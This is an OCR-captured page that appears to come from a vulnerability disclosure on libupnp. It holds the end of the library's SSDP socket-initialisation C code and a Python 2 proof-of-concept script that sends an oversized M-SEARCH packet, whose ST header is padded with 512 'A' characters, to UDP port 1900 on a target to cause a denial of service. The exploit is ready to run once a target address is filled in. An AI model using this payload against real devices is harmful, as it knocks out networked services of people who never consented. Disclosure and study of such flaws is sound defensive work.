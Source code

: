                UpnpCloseSocket(out->ssdpSock6);
    #ifdef INCLUDE_CLIENT_APIS
                shutdown(out->ssdpReqSock4, SD_BOTH);
                UpnpCloseSocket(out->ssdpReqSock4);
                shutdown(out->ssdpReqSock6, SD_BOTH);
                UpnpCloseSocket(out->ssdpReqSock6);
    #endif /* INCLUDE_CLIENT_APIS */
                return retVal;
            }
        } else
            out->ssdpSock6UlaGua = INVALID_SOCKET;
    #endif /* UPNP_ENABLE_IPV6 */

        return UPNP_E_SUCCESS;
    }
    #endif /* EXCLUDE_SSDP */

    /* @} SSDPlib */

### libupnp_DoS_PoC.py

    #!/usr/bin/python2
    # -*- coding: utf-8 -*-
    # Usage: python2 libupnp_DoS_PoC.py

    import socket

    TARGET = 'TARGET_IP'

    '''
    normal_traffic = \
        'M-SEARCH * HTTP/1.1\r\n'                   \
        'HOST:239.255.255.250:1900\r\n'             \
        'MX:3\r\n'                                  \
        'MAN:"ssdp:discover"\r\n'                   \
        'ST:upnp:rootdevice\r\n'                    \
        '\r\n'
    '''

    dos = \
        'M-SEARCH * HTTP/1.1\r\n'                   \
        'HOST:239.255.255.250:1900\r\n'             \
        'MX:3\r\n'                                  \
        'MAN:"ssdp:discover"\r\n'                   \
        'ST:uuid:schemas:device:{}:anything\r\n'    \
        '\r\n'.format("A"*512)

    # Set up UDP socket
    s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM, socket.IPPROTO_UDP)
    s.settimeout(1)
    s.sendto(dos, (TARGET, 1900))
